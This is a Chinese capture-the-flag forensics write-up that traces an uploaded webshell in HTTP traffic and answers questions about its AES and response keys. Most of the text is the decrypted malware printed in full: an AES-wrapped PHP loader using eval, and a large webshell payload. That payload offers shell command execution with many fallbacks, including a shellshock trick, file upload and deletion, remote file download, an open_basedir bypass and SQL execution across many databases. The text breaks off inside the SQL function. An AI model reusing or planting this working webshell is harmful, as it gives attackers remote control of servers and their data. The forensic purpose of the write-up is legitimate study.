# 木马初始化payload时使用的aes解密key是什么，提交flag{初始化payload时aes解密请求体使用的key字符串}

因为是web方面，先过滤出HTTP的流量



在后面发现了很多访问jpg的流量



而且都是一些加密传输了，怀疑这里就是木马，接下来就定位第一次访问这个木马的时候



GET访问后的下一个数据包如下，这里应该就是木马初始化的数据包



但是是加密传输的，所以需要找到这个jpg文件上传的地方，所以回到GET数据包附近



看到了上传的木马

```
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);


function encryptAES($data, $key) {
    return bin2hex(openssl_encrypt($data, "AES-128-CBC", $key, OPENSSL_RAW_DATA, "0123456789abcdef"));
}

function decryptAES($encryptedData, $key) {
    $decodedText = hex2bin($encryptedData);
    $secretKey = $key;
    $iv = "0123456789abcdef";
    return openssl_decrypt($decodedText, "AES-128-CBC", $secretKey, OPENSSL_RAW_DATA, $iv);
}


$datainput = file_get_contents("php://input");
$plen = substr($datainput,0,2);
$payloaddata = substr($datainput,2);
$pass=substr($payloaddata,0,2).substr($payloaddata,strlen($payloaddata)-$plen+2);
$payloaddata = substr($payloaddata,2,strlen($payloaddata) - $plen);
$payloadName='payload';
$key=substr(md5(pathinfo(__FILE__)['filename']),0,16);
$passkey = $pass;
for($i=0;$i<strlen($passkey);$i++) {
    $c = $key[$i+1&15];
    $passkey[$i] = $passkey[$i]^$c;
}


$passkey = substr(md5($passkey.$key),0,16);
$data = decryptAES($payloaddata, $passkey);
if (isset($_SESSION[$payloadName])) {
    $payload = decryptAES($_SESSION[$payloadName], $_SESSION['payloadkey']);
    if (strpos($payload, "getBasicsInfo") === false) {
        $payload = decryptAES($payload, $_SESSION['payloadkey']);
    }
    eval($payload);
    $res = @run($data);
    $reslen = strlen($res) + 32;
    $p1 = substr($reslen,-1);
    echo substr(md5($reslen), 0, $p1);
    echo $res;
    echo substr(md5($reslen), $p1);
} else {
    if (strpos($data, "getBasicsInfo") !== false) {
        $_SESSION['reskey'] = substr(md5(file_get_contents("php://input")),16);
        $_SESSION['payloadkey'] = $passkey;
        $_SESSION[$payloadName] = encryptAES($data, $passkey);
    }
}
```



经过分析，这个AESkey与初始化的文件名以及POST数据相关，所以自己创建一个同名的php文件，然后模拟发包



得到了aeskey：613001260d94ebd0

# 服务器在响应数据包时使用哪个key来进行数据加密,提交flag{服务器加密响应包用的key]

再次修改代码



来把解密后的data打印出来



然后得到了真正的大马

```
<?php
$parameters=array();
$_SES=array();


function run($pms){
    global $ERRMSG;

    reDefSystemFunc();
    $_SES=&getSession();
    @session_start();
    $sessioId=md5(session_id());
    if (isset($_SESSION[$sessioId])){
        $_SES=unserialize((S1MiwYYr(base64Decode($_SESSION[$sessioId],$sessioId),$sessioId)));
    }
    @session_write_close();

    if (canCallGzipDecode()==1&&@isGzipStream($pms)){
        $pms=gzdecode($pms);
    }
    formatParameter($pms);

    if (isset($_SES["bypass_open_basedir"])&&$_SES["bypass_open_basedir"]==true){
        @bypass_open_basedir();
    }

    if (function_existsEx("set_error_handler")){
        @set_error_handler("payloadErrorHandler");
    }
    if (function_existsEx("set_exception_handler")){
        @set_exception_handler("payloadExceptionHandler");
    }
    $result=@evalFunc();
    if ($result==null||$result===false){
        $result=$ERRMSG;
    }

    if ($_SES!==null){
        session_start();
        $_SESSION[$sessioId]=base64_encode(S1MiwYYr(serialize($_SES),$sessioId));
        @session_write_close();
    }
    if (canCallGzipEncode()){
        $result=gzencode($result,6);
    }

    return bin2hex(rc4444($result,$_SESSION['reskey']));
}

function rc4444($data, $key) {
$s = array();
for ($i = 0; $i < 256; $i++) {
$s[$i] = $i;
}
$j = 0;
$keyLength = strlen($key);
for ($i = 0; $i < 256; $i++) {
$j = ($j + $s[$i] + ord($key[$i % $keyLength])) % 256;
$temp = $s[$i];
$temp1 = $s[$j];
if ($temp + 16 <= 255)
$temp += 16;
if ($temp1 - 16 >= 0)
$temp1 -= 16;
$s[$i] = $temp1;
$s[$j] = $temp;
}
$i = 0;
$j = 0;
$result = '';
$dataLength = strlen($data);
for ($k = 0; $k < $dataLength; $k++) {
$i = ($i + 1) % 256;
$j = ($j + $s[$i]) % 256;
$temp = $s[$i];
$s[$i] = $s[$j];
$s[$j] = $temp;
$result .= $data[$k] ^ chr($s[($s[$i] + $s[$j]) % 256]);
}
return $result;
}

function payloadExceptionHandler($exception){
    global $ERRMSG;
    $ERRMSG.="ExceptionMsg:".$exception->getMessage()."\r\n";
    return true;
}
function payloadErrorHandler($errno, $errstr, $errfile=null, $errline=null,$errcontext=null){
    global $ERRMSG;
    $ERRMSG.="ErrLine: {$errline} ErrorMsg:{$errstr}\r\n";
    return true;
}
function S1MiwYYr($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $D[$i] = $D[$i]^$K[($i+1)%15];
    }
    return $D;
}
function reDefSystemFunc(){
    if (!function_exists("file_get_contents")) {
        function file_get_contents($file) {
            $f = @fopen($file,"rb");
            $contents = false;
            if ($f) {
                do { $contents .= fgets($f,1024*1024); } while (!feof($f));
            }
            fclose($f);
            return $contents;
        }
    }
    if (!function_exists('gzdecode')&&function_existsEx("gzinflate")) {
        function gzdecode($data)
        {
            return gzinflate(substr($data,10,-8));
        }
    }
    if (!function_exists("sys_get_temp_dir")){
        function sys_get_temp_dir(){
            $SCRIPT_FILENAME=dirname(__FILE__);
            if (substr($SCRIPT_FILENAME, 0, 1) != '/'){
                return "C:/Windows/Temp/";
            }else{
                return "/tmp/";
            }
        }
    }
    if (!function_exists("getmygid")){
        function getmygid(){
            return 0;
        }
    }
    if (!function_exists("scandir")){
        function scandir($directory){
            $dh  = opendir($directory);
            if ($dh!==false){
                $files=array();
                while (false !== ($filename = readdir($dh))) {
                    $files[] = $filename;
                }
                @closedir($dh);
                return $files;
            }
            return false;
        }
    }
    if (!function_exists("file_put_contents")){
        function file_put_contents($fileName, $data){
            $handle=fopen($fileName,"wb");
            if ($handle!==false){
                $len=fwrite($handle,$data);
                return $len;
                @fclose($handle);
            }else{
                return false;
            }
        }
    }
    if (!function_exists("is_executable")){
        function is_executable($fileName){
            return false;
        }
    }

}
function &getSession(){
    global $_SES;
    return $_SES;
}
function bypass_open_basedir(){
    @$_FILENAME = @dirname($_SERVER['SCRIPT_FILENAME']);
    $allFiles = @scandir($_FILENAME);
    $cdStatus=false;
    if ($allFiles!=null){
        foreach ($allFiles as $fileName) {
            if ($fileName!="."&&$fileName!=".."){
                if (@is_dir($fileName)){
                    if (@chdir($fileName)===true){
                        $cdStatus=true;
                        break;
                    }
                }
            }

        }
    }
    if(!@file_exists('bypass_open_basedir')&&!$cdStatus){
        @mkdir('bypass_open_basedir');
    }
    if (!$cdStatus){
        @chdir('bypass_open_basedir');
    }
    @ini_set('open_basedir','..');
    @$_FILENAME = @dirname($_SERVER['SCRIPT_FILENAME']);
    @$_path = str_replace("\\",'/',$_FILENAME);
    @$_num = substr_count($_path,'/') + 1;
    $_i = 0;
    while($_i < $_num){
        @chdir('..');
        $_i++;
    }
    @ini_set('open_basedir','/');
    if (!$cdStatus){
        @rmdir($_FILENAME.'/'.'bypass_open_basedir');
    }
}
function formatParameter($pms){
    global $parameters;
    $index=0;
    $key=null;
    while (true){
        $q=$pms[$index];
        if (ord($q)==0x02){
            $len=bytesToInteger(getBytes(substr($pms,$index+1,4)),0);
            $index+=4;
            $value=substr($pms,$index+1,$len);
            $index+=$len;
            $parameters[$key]=$value;
            $key=null;
        }else{
            $key.=$q;
        }
        $index++;
        if ($index>strlen($pms)-1){
            break;
        }
    }
}
function evalFunc(){
    @session_write_close();
    $className=get("codeName");
    $methodName=get("methodName");
    $_SES=&getSession();
    if ($methodName!=null){
        if (strlen(trim($className))>0){
            if ($methodName=="includeCode"){
                return includeCode();
            }else{
                if (isset($_SES[$className])){
                    return eval($_SES[$className]);
                }else{
                    return "{$className} no load";
                }
            }
        }else{
            if (function_exists($methodName)){
                return $methodName();
            }else{
                return "function {$methodName} not exist";
            }
        }
    }else{
        return "methodName Is Null";
    }

}
function deleteDir($p){
    $m=@dir($p);
    while(@$f=$m->read()){
        $pf=$p."/".$f;
        @chmod($pf,0777);
        if((is_dir($pf))&&($f!=".")&&($f!="..")){
            deleteDir($pf);
            @rmdir($pf);
        }else if (is_file($pf)&&($f!=".")&&($f!="..")){
            @unlink($pf);
        }
    }
    $m->close();
    @chmod($p,0777);
    return @rmdir($p);
}
function deleteFile(){
    $F=get("fileName");
    if(is_dir($F)){
        return deleteDir($F)?"ok":"fail";
    }else{
        return (file_exists($F)?@unlink($F)?"ok":"fail":"fail");
    }
}
function setFileAttr(){
    $type = get("type");
    $attr = get("attr");
    $fileName = get("fileName");
    $ret = "Null";
    if ($type!=null&&$attr!=null&&$fileName!=null) {
        if ($type=="fileBasicAttr"){
            if (@chmod($fileName,convertFilePermissions($attr))){
                return "ok";
            }else{
                return "fail";
            }
        }else if ($type=="fileTimeAttr"){
            if (@touch($fileName,$attr)){
                return "ok";
            }else{
                return "fail";
            }
        }else{
            return "no ExcuteType";
        }
    }else{
        $ret="type or attr or fileName is null";
    }
    return $ret;
}
function fileRemoteDown(){
    $url=get("url");
    $saveFile=get("saveFile");
    if ($url!=null&&$saveFile!=null) {
        $data=@file_get_contents($url);
        if ($data!==false){
            if (@file_put_contents($saveFile,$data)!==false){
                @chmod($saveFile,0777);
                return "ok";
            }else{
                return "write fail";
            }
        }else{
            return "read fail";
        }
    }else{
        return "url or saveFile is null";
    }
}
function copyFile(){
    $srcFileName=get("srcFileName");
    $destFileName=get("destFileName");
    if (@is_file($srcFileName)){
        if (copy($srcFileName,$destFileName)){
            return "ok";
        }else{
            return "fail";
        }
    }else{
        return "The target does not exist or is not a file";
    }
}
function moveFile(){
    $srcFileName=get("srcFileName");
    $destFileName=get("destFileName");
    if (rename($srcFileName,$destFileName)){
        return "ok";
    }else{
        return "fail";
    }

}
function getBasicsInfo()
{
    $data = array();
    $data['OsInfo'] = @php_uname();
    $data['CurrentUser'] = @get_current_user();
    $data['CurrentUser'] = strlen(trim($data['CurrentUser'])) > 0 ? $data['CurrentUser'] : 'NULL';
    $data['REMOTE_ADDR'] = @$_SERVER['REMOTE_ADDR'];
    $data['REMOTE_PORT'] = @$_SERVER['REMOTE_PORT'];
    $data['HTTP_X_FORWARDED_FOR'] = @$_SERVER['HTTP_X_FORWARDED_FOR'];
    $data['HTTP_CLIENT_IP'] = @$_SERVER['HTTP_CLIENT_IP'];
    $data['SERVER_ADDR'] = @$_SERVER['SERVER_ADDR'];
    $data['SERVER_NAME'] = @$_SERVER['SERVER_NAME'];
    $data['SERVER_PORT'] = @$_SERVER['SERVER_PORT'];
    $data['disable_functions'] = @ini_get('disable_functions');
    $data['disable_functions'] = strlen(trim($data['disable_functions'])) > 0 ? $data['disable_functions'] : @get_cfg_var('disable_functions');
    $data['Open_basedir'] = @ini_get('open_basedir');
    $data['timezone'] = @ini_get('date.timezone');
    $data['encode'] = @ini_get('exif.encode_unicode');
    $data['extension_dir'] = @ini_get('extension_dir');
    $tmpDir=sys_get_temp_dir();
    $separator=substr($tmpDir,strlen($tmpDir)-1,1);
    if ($separator!='\\'&&$separator!='/'){
        $tmpDir=$tmpDir.'/';
    }
    $data['systempdir'] = $tmpDir;
    $data['include_path'] = @ini_get('include_path');
    $data['DOCUMENT_ROOT'] = $_SERVER['DOCUMENT_ROOT'];
    $data['PHP_SAPI'] = PHP_SAPI;
    $data['PHP_VERSION'] = PHP_VERSION;
    $data['PHP_INT_SIZE'] = PHP_INT_SIZE;
    $data['ProcessArch'] = PHP_INT_SIZE==8?"x64":"x86";
    $data['PHP_OS'] = PHP_OS;
    $data['canCallGzipDecode'] = canCallGzipDecode();
    $data['canCallGzipEncode'] = canCallGzipEncode();
    $data['session_name'] = @ini_get("session.name");
    $data['session_save_path'] = @ini_get("session.save_path");
    $data['session_save_handler'] = @ini_get("session.save_handler");
    $data['session_serialize_handler'] = @ini_get("session.serialize_handler");
    $data['user_ini_filename'] = @ini_get("user_ini.filename");
    $data['memory_limit'] = @ini_get('memory_limit');
    $data['upload_max_filesize'] = @ini_get('upload_max_filesize');
    $data['post_max_size'] = @ini_get('post_max_size');
    $data['max_execution_time'] = @ini_get('max_execution_time');
    $data['max_input_time'] = @ini_get('max_input_time');
    $data['default_socket_timeout'] = @ini_get('default_socket_timeout');
    $data['mygid'] = @getmygid();
    $data['mypid'] = @getmypid();
    $data['SERVER_SOFTWAREypid'] = @$_SERVER['SERVER_SOFTWARE'];
    $data['SERVER_PORT'] = @$_SERVER['SERVER_PORT'];
    $data['loaded_extensions'] = @implode(',', @get_loaded_extensions());
    $data['short_open_tag'] = @get_cfg_var('short_open_tag');
    $data['short_open_tag'] = @(int)$data['short_open_tag'] == 1 ? 'true' : 'false';
    $data['asp_tags'] = @get_cfg_var('asp_tags');
    $data['asp_tags'] = (int)$data['asp_tags'] == 1 ? 'true' : 'false';
    $data['safe_mode'] = @get_cfg_var('safe_mode');
    $data['safe_mode'] = (int)$data['safe_mode'] == 1 ? 'true' : 'false';
    $data['CurrentDir'] = str_replace('\\', '/', @dirname($_SERVER['SCRIPT_FILENAME']));
    if (strlen(trim($data['CurrentDir']))==0){
        $data['CurrentDir'] = str_replace('\\', '/', @dirname(__FILE__));
    }
    $SCRIPT_FILENAME=@dirname(__FILE__);
    $data['FileRoot'] = '';
    if (substr($SCRIPT_FILENAME, 0, 1) != '/') {
        $drivers=array('C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z');
        foreach ($drivers as $L){
            if (@is_dir("{$L}:/")){
                $data['FileRoot'] .= "{$L}:/;";}
        }
        if (empty($data['FileRoot'])){
            $data['FileRoot']=substr($SCRIPT_FILENAME,0,3);
        }
    }else{
        $data['FileRoot'] .= "/";
    }
    $result="";
    foreach($data as $key=>$value){
        $result.=$key." : ".$value."\n";
    }
    return $result;
}
function getFile(){
    $dir=get('dirName');
    $dir=(strlen(@trim($dir))>0)?trim($dir):str_replace('\\','/',dirname(__FILE__));
    $dir.="/";
    $path=$dir;
    $allFiles = @scandir($path);
    $data="";
    if ($allFiles!=null){
        $data.="ok";
        $data.="\n";
        $data.=$path;
        $data.="\n";
        foreach ($allFiles as $fileName) {
            if ($fileName!="."&&$fileName!=".."){
                $fullPath = $path.$fileName;
                $lineData=array();
                array_push($lineData,$fileName);
                array_push($lineData,@is_file($fullPath)?"1":"0");
                array_push($lineData,date("Y-m-d H:i:s", @filemtime($fullPath)));
                array_push($lineData,@filesize($fullPath));
                $fr=(@is_readable($fullPath)?"R":"").(@is_writable($fullPath)?"W":"").(@is_executable($fullPath)?"X":"");
                array_push($lineData,(strlen($fr)>0?$fr:"F"));
                $data.=(implode("\t",$lineData)."\n");
            }

        }
    }else{
        return "Path Not Found Or No Permission!";
    }
    return $data;
}
function readFileContent(){
    $fileName=get("fileName");
    if (@is_file($fileName)){
        if (function_existsEx("is_readable")){
            return file_get_contents($fileName);
        }else{
            return "No Permission!";
        }
    }else{
        return "File Not Found";
    }
}
function uploadFile(){
    $fileName=get("fileName");
    $fileValue=get("fileValue");
    if (@file_put_contents($fileName,$fileValue)!==false){
        @chmod($fileName,0777);
        return "ok";
    }else{
        return "fail";
    }
}
function newDir(){
    $dir=get("dirName");
    if (@mkdir($dir,0777,true)!==false){
        return "ok";
    }else{
        return "fail";
    }
}
function newFile(){
    $fileName=get("fileName");
    if (@file_put_contents($fileName,"")!==false){
        return "ok";
    }else{
        return "fail";
    }
}

function function_existsEx($functionName){
    $d=explode(",",@ini_get("disable_functions"));
    if(empty($d)){
        $d=array();
    }else{
        $d=array_map('trim',array_map('strtolower',$d));
    }
    return(function_exists($functionName)&&is_callable($functionName)&&!in_array($functionName,$d));
}

function execCommand(){
    @ob_start();
    $cmdLine=get("cmdLine");
    if(substr(__FILE__,0,1)=="/"){
        @putenv("PATH=".getenv("PATH").":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");
    }else{
        @putenv("PATH=".getenv("PATH").";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");
    }
    $result="";
    if (!function_existsEx("runshellshock")){
        function runshellshock($d, $c) {
            if (substr($d, 0, 1) == "/" && function_existsEx('putenv') && (function_existsEx('error_log') || function_existsEx('mail'))) {
                if (strstr(readlink("/bin/sh"), "bash") != FALSE) {
                    $tmp = tempnam(sys_get_temp_dir(), 'as');
                    putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");
                    if (function_existsEx('error_log')) {
                        error_log("a", 1);
                    } else {
                        mail("a@127.0.0.1", "", "", "-bv");
                    }
                } else {
                    return False;
                }
                $output = @file_get_contents($tmp);
                @unlink($tmp);
                if ($output != "") {
                    return $output;
                }
            }
            return False;
        };
    }

    if(function_existsEx('system')){
        @system($cmdLine,$ret);
    }elseif(function_existsEx('passthru')){
        $result=@passthru($cmdLine,$ret);
    }elseif(function_existsEx('shell_exec')){
        $result=@shell_exec($cmdLine);
    }elseif(function_existsEx('exec')){
        @exec($cmdLine,$o,$ret);
        $result=join("\n",$o);
    }elseif(function_existsEx('popen')){
        $fp=@popen($cmdLine,'r');
        while(!@feof($fp)){
            $result.=@fgets($fp,1024*1024);
        }
        @pclose($fp);
    }elseif(function_existsEx('proc_open')){
        $p = @proc_open($cmdLine, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);
        while(!@feof($io[1])){
            $result.=@fgets($io[1],1024*1024);
        }
        while(!@feof($io[2])){
            $result.=@fgets($io[2],1024*1024);
        }
        @fclose($io[1]);
        @fclose($io[2]);
        @proc_close($p);
    }elseif(substr(__FILE__,0,1)!="/" && @class_exists("COM")){
        $w=new COM('WScript.shell');
        $e=$w->exec($cmdLine);
        $so=$e->StdOut();
        $result.=$so->ReadAll();
        $se=$e->StdErr();
        $result.=$se->ReadAll();
    }elseif (function_existsEx("pcntl_fork")&&function_existsEx("pcntl_exec")){
        $cmd="/bin/bash";
        if (!file_exists($cmd)){
            $cmd="/bin/sh";
        }
        $commandFile=sys_get_temp_dir()."/".time().".log";
        $resultFile=sys_get_temp_dir()."/".(time()+1).".log";
        @file_put_contents($commandFile,$cmdLine);
        switch (pcntl_fork()) {
            case 0:
                $args = array("-c", "$cmdLine > $resultFile");
                pcntl_exec($cmd, $args);
                // the child will only reach this point on exec failure,
                // because execution shifts to the pcntl_exec()ed command
                exit(0);
            default:
                break;
        }
        if (!file_exists($resultFile)){
            sleep(2);
        }
        $result=file_get_contents($resultFile);
        @unlink($commandFile);
        @unlink($resultFile);

    }elseif(($result=runshellshock(__FILE__, $cmdLine)!==false)) {

    }else{
        return "none of proc_open/passthru/shell_exec/exec/exec/popen/COM/runshellshock/pcntl_exec is available";
    }
    $result .= @ob_get_contents();
    @ob_end_clean();

    return $result;
}
function execSql(){
    $dbType=get("dbType");
    $dbHost=get("dbHost");
    $dbPort=get("dbPort");
    $username=get("dbUsername");
    $password=get("dbPassword");
    $execType=get("execType");
    $execSql=get("execSql");
    $charset=get("dbCharset");
    $currentDb=get("currentDb");
    function  mysqli_exec($host,$port,$username,$password,$execType,$currentDb,$sql,$charset){
        // 创建连接
        $conn = new mysqli($host,$username,$password,"",$port);
        // Check connection
        if ($conn->connect_error) {
            return $conn->connect_error;
        }
        if (!empty($charset)){
            $conn->set_charset($charset);
        }
        if (!empty($currentDb)){
            $conn->select_db($currentDb);
        }
        $result = $conn->query($sql);
        if ($conn->error){
            return $conn->error;
        }
        if ($execType=="update"){
            return "Query OK, ".$conn->affected_rows." rows affected";
        }else{
            $data="ok\n";
            while ($column = $result->fetch_field()){
                $data.=base64_encode($column->name)."\t";
            }
            $data.="\n";
            if ($result->num_rows > 0) {
                while($row = $result->fetch_assoc()) {
                    foreach ($row as $value){
                        $data.=base64_encode($value)."\t";
                    }
                    $data.="\n";
                }
            }
            return $data;
        }
    }
    function mysql_exec($host, $port, $username, $password, $execType, $currentDb,$sql,$charset) {
        $con = @mysql_connect($host.":".$port, $username, $password);
        if (!$con) {
            return mysql_error();
        } else {
            if (!empty($charset)){
                mysql_set_charset($charset,$con);
            }
            if (!empty($currentDb)){
                if (function_existsEx("mysql_selectdb")){
                    mysql_selectdb($currentDb,$con);
                }elseif (function_existsEx("mysql_select_db")){
                    mysql_select_db($currentDb,$con);
                }
            }
            $result = @mysql_query($sql);
            if (!$result) {
                return mysql_error();
            }
            if ($execType == "update") {
                return "Query OK, ".mysql_affected_rows($con)." rows affected";
            } else {
                $data = "ok\n";
                for ($i = 0; $i < mysql_num_fields($result); $i++) {
                    $data.= base64_encode(mysql_field_name($result, $i))."\t";
                }
                $data.= "\n";
                $rowNum = mysql_num_rows($result);
                if ($rowNum > 0) {
                    while ($row = mysql_fetch_row($result)) {
                        foreach($row as $value) {
                            $data.= base64_encode($value)."\t";
                        }
                        $data.= "\n";
                    }
                }
            }
            @mysql_close($con);
            return $data;
        }
    }
    function mysqliEx_exec($host, $port, $username, $password, $execType, $currentDb,$sql,$charset){
        $port == "" ? $port = "3306" : $port;
        $T=@mysqli_connect($host,$username,$password,"",$port);
        if (!empty($charset)){
            @mysqli_set_charset($charset);
        }
        if (!empty($currentDb)){
            @mysqli_select_db($T,$currentDb);
        }
        $q=@mysqli_query($T,$sql);
        if(is_bool($q)){
            return mysqli_error($T);
        }else{
            if (mysqli_num_fields($q)>0){
                $i=0;
                $data = "ok\n";
                while($col=@mysqli_fetch_field($q)){
                    $data.=base64_encode($col->name)."\t";
                    $i++;
                }
                $data.="\n";
                while($rs=@mysqli_fetch_row($q)){
                    for($c=0;$c<$i;$c++){
                        $data.=base64_encode(trim($rs[$c]))."\t";
                    }
                    $data.="\n";
                }
                return $data;
            }else{
                return "Query OK, ".@mysqli_affected_rows($T)." rows affected";
            }
        }
    }
    function pg_execEx($host, $port, $username, $password, $execType,$currentDb, $sql,$charset){
        $port == "" ? $port = "5432" : $port;
        $arr=array(
            'host'=>$host,
            'port'=>$port,
            'user'=>$username,
            'password'=>$password
        );
        if (!empty($currentDb)){
            $arr["dbname"]=$currentDb;
        }
        $cs='';
        foreach($arr as $k=>$v) {
            if(empty($v)){
                continue;
            }
            $cs .= "$k=$v ";
        }
        $T=@pg_connect($cs);
        if(!$T){
            return @pg_last_error();
        }else{
            if (!empty($charset)){
                @pg_set_client_encoding($T,$charset);
            }
            $q=@pg_query($T, $sql);
            if(!$q){
                return @pg_last_error();
            }else{
                $n=@pg_num_fields($q);
                if($n===NULL){
                    return @pg_last_error();
                }elseif($n===0){
                    return "Query OK, ".@pg_affected_rows($q)." rows affected";
                }else{
                    $data = "ok\n";
                    for($i=0;$i<$n;$i++){
                        $data.=base64_encode(@pg_field_name($q,$i))."\t";
                    }
                    $data.= "\n";
                    while($row=@pg_fetch_row($q)){
                        for($i=0;$i<$n;$i++){
                            $data.=base64_encode($row[$i]!==NULL?$row[$i]:"NULL")."\t";
                        }
                        $data.= "\n";
                    }
                    return $data;
                }
            }
        }
    }
    function sqlsrv_exec($host, $port, $username, $password, $execType, $currentDb,$sql){

        $dbConfig=array("UID"=> $username,"PWD"=>$password);
        if (!empty($currentDb)){
            $dbConfig["Database"]=$currentDb;
        }

        $T=@sqlsrv_connect($host,$dbConfig);
        $q=@sqlsrv_query($T,$sql,null);
        if($q!==false){
            $i=0;
            $fm=@sqlsrv_field_metadata($q);
            if(empty($fm)){
                $ar=@sqlsrv_rows_affected($q);
                return "Query OK, ".$ar." rows affected";
            }else{
                $data = "ok\n";

                foreach($fm as $rs){
                    $data.=base64_encode($rs['Name'])."\t";
                    $i++;
                }
                $data.= "\n";
                while($rs=@sqlsrv_fetch_array($q,SQLSRV_FETCH_NUMERIC)){
                    for($c=0;$c<$i;$c++){
                        $data.=base64_encode(trim($rs[$c]))."\t";
                    }
                    $data.= "\n";
                }
                return $data;
            }
        }else{
            $err="";
            if(($e = sqlsrv_errors()) != null){
                foreach($e as $v){
                    $err.=($e['message'])."\n";
                }
            }
            return $err;
        }
    }
    function mssql_exec($host, $port, $username, $password, $execType,$currentDb, $sql){
        $T=@mssql_connect($host,$username,$password);
        if (!empty($currentDb)){
            @mssql_select_db($currentDb);
        }
        $q=@mssql_query($sql,$T);
        if(is_bool($q)){
            return "Query OK, ".@mssql_rows_affected($T)." rows affected";
        }else{
            $data = "ok\n";
            $i=0;
            while($rs=@mssql_fetch_field($q)){
                $data.=base64_encode($rs->name)."\t";
                $i++;
            }
            $data.="\n";
            while($rs=@mssql_fetch_row($q)){
                for($c=0;$c<$i;$c++){
                    $data.=base64_encode(trim($rs[$c]))."\t";
                }
                $data.="\n";
            }
            @mssql_free_result($q);
            @mssql_close($T);
            return $data;
        }
    }
    function oci_exec($host, $port, $username, $password, $execType, $currentDb, $sql, $charset) {
        $chs = $charset ? $charset : "utf8";
        $mod = 0;
        $H = @oci_connect($username, $password, $host, $chs, $mod);
        if (!$H) {
            $errObj=@oci_error();
            return $errObj["message"];
        } else {
            $q = @oci_parse($H, $sql);
            if (@oci_execute($q)) {
                $n = oci_num_fields($q);
                if ($n == 0) {
                    return "Query OK, ".@oci_num_rows($q)." rows affected";
                } else {
                    $data = "ok\n";
                    for ($i = 1; $i <= $n; $i++) {
                        $data.= base64_encode(oci_field_name($q, $i))."\t";
                    }
                    $data.= "\n";
                    while ($row = @oci_fetch_array($q, OCI_ASSOC + OCI_RETURN_NULLS)) {
                        foreach($row as $item) {
                            $data.= base64_encode($item !== null ? base64_encode($item) : ""). "\t";
                        }
                        $data.= "\n";
                    }
                    return $data;
                }
            } else {
                $e = @oci_error($q);
                if ($e) {
                    return "ERROR://{$e['message']} in [{$e['sqltext']}] col:{$e['offset']}";
                } else {
                    return "false";
                }
            }
        }
    }
    function ora_exec($host, $port, $username, $password, $execType, $currentDb, $sql, $charset) {
        $H = @ora_plogon("{$username}@{$host}", "{$password}");
        if (!$H) {
            return "Login Failed!";
        } else {
            $T = @ora_open($H);
            @ora_commitoff($H);
            $q = @ora_parse($T, "{$sql}");
            $R = ora_exec($T);
            if ($R) {
                $n = ora_numcols($T);
                $data="ok\n";
                for ($i = 0; $i < $n; $i++) {
                    $data.=base64_encode(Ora_ColumnName($T, $i))."\t";
                }
                $data.="\n";
                while (ora_fetch($T)) {
                    for ($i = 0; $i < $n; $i++) {
                        $data.=base64_encode(trim(ora_getcolumn($T, $i)))."\t";
                    }
                    $data.="\n";
                }
                return $data;
            } else {
                return "false";
            }
        }
    }
    function sqlite_exec($host, $port, $username, $password, $execType, $currentDb, $sql, $charset) {
        $dbh=new SQLite3($host);
        if(!$dbh){
            return "ERROR://CONNECT ERROR".SQLite3::lastErrorMsg();
        }else{
            $stmt=$dbh->prepare($sql);
            if(!$stmt){
                return "ERROR://".$dbh->lastErrorMsg();
            } else {
                $result=$stmt->execute();
                if(!$result){
                    return $dbh->lastErrorMsg();
                }else{
                    $bool=True;
                    $data="ok\n";
                    while($res=$result->fetchArray(SQLITE3_ASSOC)){
                        if($bool){
                            foreach($res as $key=>$value){
                                $data.=base64_encode($key)."\t";
                            }
                            $bool=False;
                            $data.="\n";
                        }
                        foreach($res as $key=>$value){
                            $data.=base64_encode($value!==NULL?$value:"NULL")."\t";
                        }
                        $data.="\n";
                    }
                    if($bool){
                        if(!$result->numColumns()){
                            return "Query OK, ".$dbh->changes()." rows affected";
                        }else{
                            return "ERROR://Table is empty.";
                        }
                    }else{
                        return $data;
                    }
                }
            }
            $dbh->close();
        }
    }
    function pdoExec($databaseType,$host,$port,$username,$password,$execType,$currentDb,$sql){
        $conn=null;
        if ($databaseType==="oracle"){
            $databaseType="orcl";
        }
        if (strpos($host,"=")!==false){
            $conn = new PDO($host, $username, $password);
        }else if (!empty($currentDb)){
            $conn = new PDO("{$databaseType}:host=$host;port={$port};dbname={$currentDb}", $username, $password);
        }else{
            $conn = new PDO("{$databaseType}:host=$host;port={$port};", $username, $password);
        }
        $conn->setAttribute(3, 0);
        if ($execType=="update"){
            $affectRows=$conn->exec($sql);
            if ($affectRows!==false){
                return "Query OK, ".$conn->exec($sql)." rows affected";
            }else{
                return "Err->\n".implode(',',$conn->errorInfo());
            }
        }else{
            $data="ok\n";
            $stm=$conn->prepare($sql);
            if ($stm->execute()){
                $row=$stm->fetch(2);
                $_row="\n";
                foreach (array_keys($row) as $key){
                    $data.=base64_encode($key)."\t";
                    $_row.=base64_encode($row[$key])."\t";
                }
                $data.=$_row."\n";
                while ($row=$stm->fetch(2)){
                    foreach (array_keys($row) as $key){
                        $data.=base64_encode($row[$key])."\t";
                    }
                    $data.="\n";
                }
                return $data;
            }else{
                return "Err->\n".implode(',',$stm->errorInfo());
            }
        }
    }
    if ($dbType=="mysql"&&(class_exists("mysqli")||function_existsEx("mysql_connect")||function_existsEx("mysqli_connect"))){
        if (class_exists("mysqli")){
            return mysqli_exec($dbHost,$dbPort,$username,$password,$execType,$currentDb,$execSql,$charset);
        }elseif (function_existsEx("mysql_connect")){
            return mysql_exec($dbHost,$dbPort,$username,$password,$execType,$currentDb,$execSql,$charset);
        }else if (function_existsEx("mysqli_connect")){
            return mysqliEx_exec($dbHost,$dbPort,$username,$password,$execType,$currentDb,$execSql,$charset);
        }
    }elseif ($dbType=="postgresql"&&function_existsEx("pg_connect")){
        if (function_existsEx("pg_connect")){
            return pg_execEx($dbHost,$dbPort,$username,$password,$execType,$currentDb,$execSql,$charset);
        }
    }elseif ($dbType=="sqlserver"&&(function_existsEx("sqlsrv_connect")||function_existsEx("mssql_connect"))){
        if (function_existsEx("sqlsrv_connect")){
            return sqlsrv_exec($dbHost,$dbPort,$username,$password,$execType,$currentDb,$execSql);
        }elseif (function_existsEx("mssql_connect")){
            return mssql_exec($dbHost,$dbPort,$username,$password,$execType,$currentDb,$execSql);
        }
